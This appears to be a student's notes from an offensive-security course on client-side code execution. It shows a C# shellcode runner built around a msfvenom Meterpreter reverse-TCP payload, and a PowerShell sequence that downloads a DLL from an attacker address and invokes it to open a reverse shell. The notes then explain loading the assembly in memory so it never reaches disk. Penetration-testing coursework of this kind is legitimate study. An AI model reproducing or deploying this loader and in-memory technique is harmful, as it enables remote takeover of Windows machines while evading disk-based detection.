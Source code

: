 ```csharp

    public static void runner()

    {

            // msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.110 LPORT=4444 EXITFUNC=thread -f csharp

            byte[] buf = new byte[511] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,                           ...                                  0x6a,0x00,0x59,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0x89,0xda,0xff,
                                                        0xd5};


            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);

        }

    }

}
```
- interact with powershell to get meterpreter staged payload
```powershell
(New-Object System.Net.WebClient).DownloadFile('http://192.168.1.110/ClassLibrary1.dll', '<insert path>\ClassLibrary1.dll')

$assem = [System.Reflection.Assembly]::LoadFile("<insert path>\ClassLibrary1.dll")

PS> $class = $assem.GetType("ClassLibrary1.Class1")

$method = $class.GetMethod("runner")

$method.Invoke(0, $null)
```
- Executing this PowerShell results in a reverse Meterpreter shell, but it will download the assembly to disk before loading it. We can subvert this by instead using the _Load_[1](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-windows-script-host-14683/in-memory-powershell-revisited-14724/reflective-load-15054#fn-local_id_499-1) method, which accepts a _Byte_ array in memory instead of a disk file. In this case, we'll modify our PowerShell code to use the _DownloadData_[2](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-windows-script-host-14683/in-memory-powershell-revisited-14724/reflective-load-15054#fn-local_id_499-2) method of the _Net.WebClient_ class to download the DLL as a byte array.
